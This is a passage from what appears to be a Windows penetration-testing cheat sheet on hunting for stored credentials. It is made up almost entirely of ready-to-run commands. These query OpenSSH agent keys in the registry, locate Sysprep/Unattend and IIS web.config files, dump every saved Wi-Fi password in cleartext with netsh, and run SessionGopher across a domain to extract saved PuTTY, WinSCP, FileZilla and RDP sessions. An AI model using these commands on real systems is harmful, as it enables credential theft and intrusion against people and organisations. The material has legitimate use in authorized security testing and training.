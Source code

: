 ```
 
 ## OpenSSH credentials
 reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
```

Unattend/Sysprep Files:

```
 c:\sysprep.inf
 c:\sysprep\sysprep.xml
 %WINDIR%\Panther\Unattend\Unattend*.xml
 %WINDIR%\Panther\Unattend*.xml
```

Credentials from Log Files:

```
 dir /s /b /p *access*.log* == *.log
```

Credentials from IIS Web Configuration:

```
 Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
 Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
 	
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
 C:\inetpub\wwwroot\web.config
```

Wireless Credentials:

```
 # 1. Find AP SSID
 netsh wlan show profile
 # 2. Get cleartext password
 netsh wlan show profile <SSID> key=clear
 # OR
 # Go hard and grab 'em all
 cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

Credentials stored in services (SessionGopher.ps1):

{% embed url="https://github.com/Arvanaghi/SessionGopher" %}

```
 # SessionGopher to grab PuTTY, WinSCP, FileZilla, SuperPuTTY, RDP
 # https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
 Import-Module path\to\SessionGopher.ps1;
 Invoke-SessionGopher -AllDomain -o
 Invoke-SessionGopher -AllDomain -u domain.com\adm\-arvanaghi -p s3cr3tP@ss
```

Creds from Powershell History:
